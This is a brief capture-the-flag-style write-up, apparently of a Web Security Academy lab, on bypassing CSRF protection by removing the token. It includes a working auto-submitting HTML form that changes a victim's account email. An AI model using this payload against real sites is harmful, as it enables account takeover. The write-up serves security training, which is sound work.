


# **CSRF where token validation depends on token being present**

This one is kind of naive, you just have to remove the csrf token and serve the exploit 🤷

Doesn’t work with incorrect CSRF token:



But if you just remove the token:



So using the same payload in the exploit server page as we have in previous labs will do:

```
<form method="POST" action="https://0a9000c70418a130800a85ad000b0008.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="evil@hacker.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

And clicking on “Deliver exploit to victim” will solve the Lab.
